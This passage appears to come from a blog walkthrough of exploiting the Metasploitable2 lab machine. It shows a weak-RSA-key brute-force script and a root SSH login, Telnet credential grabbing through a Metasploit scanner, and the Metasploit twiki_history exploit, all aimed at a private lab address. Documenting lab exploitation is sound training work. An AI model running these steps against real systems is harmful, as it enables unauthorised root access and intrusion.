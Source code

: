 `tar jxf 5622.tar.bz2`

run the command:

`python 5720.py rsa/2048/ 192.168.79.179 root 22 5`

rsa/2048 is the folder contains the keys.

Found keys:

{% img  /images/blog/misc/metasploitable2/Selection_020.png   [title manually exploit [alt text]] %}


login the box:

`ssh -l root -p22 -i rsa/2048//c551f0a5d2f76d88b58b3ae90ceb617a-22002 192.168.79.179`


{% img  /images/blog/misc/metasploitable2/Selection_021.png   [title manually exploit [alt text]] %}



### TELNET exploit

in msfconsole, search telnet

```
msf > use auxiliary/scanner/telnet/telnet_version
msf auxiliary(telnet_version) > set rhosts 192.168.79.179
msf auxiliary(telnet_version) > run

```

In the banner, shows username/password


{% img  /images/blog/misc/metasploitable2/Selection_025.png   [title manually exploit [alt text]] %}

or you can just `telnet 192.168.79.179` to grab the banner.

login 

`telnet 192.168.79.179 -l msfadmin`

{% img  /images/blog/misc/metasploitable2/Selection_026.png   [title manually exploit [alt text]] %}



### Twiki (port 80)

Nagviate to port 80. there is a Twiki, search twiki, find a  exploit

`exploit/unix/webapp/twiki_history`

```
msf > use  exploit/unix/webapp/twiki_history
msf exploit(twiki_history) > set rhost 192.168.79.179
msf exploit(twiki_history) > exploit
```
